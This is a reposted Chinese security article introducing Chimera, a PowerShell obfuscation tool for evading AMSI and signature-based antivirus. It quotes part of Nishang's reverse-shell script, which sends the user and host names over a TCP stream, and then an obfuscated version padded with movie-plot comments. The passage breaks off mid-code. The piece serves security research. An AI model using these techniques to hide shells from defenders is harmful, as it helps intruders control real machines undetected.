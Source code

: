 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [www.freebuf.com](https://www.freebuf.com/sectool/266050.html)

![](https://image.3001.net/images/20210313/1615641295_604cbacff3c769ba06a49.jpg!small)

关于 Chimera
----------

Chimera 是一款功能强大的 PowerShell 混淆脚本，它可以帮助广大研究人员实现 AMSI 和安全防护产品（解决方案）绕过。该脚本可以利用字符串替换和变量串联来处理已知的可以触发反病毒产品的恶意 PS1，以实现绕过常见的基于签名的安全检测机制。

Chimera 的开发与发布，[进一步证明了](#resources)绕过基于签名的安全检测机制是多么的简单，希望这个项目能够激励社区的广大开发人员努力构建出更加健壮可靠的代码。

工作机制
----

下面给出的是 Nishang 的 [Invoke-PowerShellTcp.ps1](https://github.com/tokyoneon/Chimera/blob/master/shells/Invoke-PowerShellTcp.ps1) 的部分代码段，这部分代码可以在 [nishang/Shells](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) 中找到。VirusTotal 针对这个 PS1 脚本报告了 [25 个引擎成功检测到](https://www.virustotal.com/gui/file/0f1e223eaf8b6d71f65960f8b9e14c98ba62e585334a6349bcd02216f4415868/detection)：

```
$stream = $client.GetStream()

[byte[]]$bytes = 0..65535|%{0}

 

#Send back current username and computername

$sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")

$stream.Write($sendbytes,0,$sendbytes.Length)

 

#Show an interactive PowerShell prompt

$sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')

$stream.Write($sendbytes,0,$sendbytes.Length)
```

![](https://image.3001.net/images/20210313/1615641319_604cbae7bcfaf403ca208.png!small)

那么，在经过了 Chimera 的处理之后，VirusTotal 针对混淆版本的脚本检测报告为 0：

```
# Watched anxiously by the Rebel command, the fleet of small, single-pilot fighters speeds toward the massive, impregnable Death Star.

              $xdgIPkCcKmvqoXAYKaOiPdhKXIsFBDov = $jYODNAbvrcYMGaAnZHZwE."$bnyEOfzNcZkkuogkqgKbfmmkvB$ZSshncYvoHKvlKTEanAhJkpKSIxQKkTZJBEahFz$KKApRDtjBkYfJhiVUDOlRxLHmOTOraapTALS"()

       # As the station slowly moves into position to obliterate the Rebels, the pilots maneuver down a narrow trench along the station’s equator, where the thermal port lies hidden.

          [bYte[]]$mOmMDiAfdJwklSzJCUFzcUmjONtNWN = 0..65535|%{0}

   # Darth Vader leads the counterattack himself and destroys many of the Rebels, including Luke’s boyhood friend Biggs, in ship-to-ship combat.

 

```